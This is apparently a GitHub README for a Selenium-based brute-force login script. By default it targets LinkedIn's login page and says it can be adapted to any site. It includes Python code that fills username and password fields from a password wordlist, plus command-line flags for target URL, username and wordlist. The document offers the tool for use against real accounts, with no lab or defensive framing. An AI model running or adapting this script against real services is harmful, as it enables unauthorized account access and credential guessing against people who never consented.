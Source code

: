 # Selenium-Brute-Force
A simple script for doing brute-force attack using selenium.

## Help
- The default script is useful for Linkedin, but it works for everything. For other platforms, it needs to extract username id, password id, and login button class using browser inspector.
![](https://github.com/mohammadkamrani/Selenium-Brute-Force/blob/main/2021-01-20_14-43-37.jpg)
put them in code.
```python
username = driver.find_element_by_id("username")		
username.clear()
print("username: "+curuser)
username.send_keys(curuser)		
password = driver.find_element_by_id("password")
password.clear()
print("password: "+passw+"\n")
password.send_keys(passw)			
driver.find_element_by_class_name('login__form_action_container').click()
```
- -h, --help  show this help message and exit
- -t    target's url: https://www.linkedin.com/uas/login
- -u    username
- -p    wordlist: for example password.txt

![](https://github.com/mohammadkamrani/Brute-Force/blob/main/ezgif.com-video-to-gif.gif)


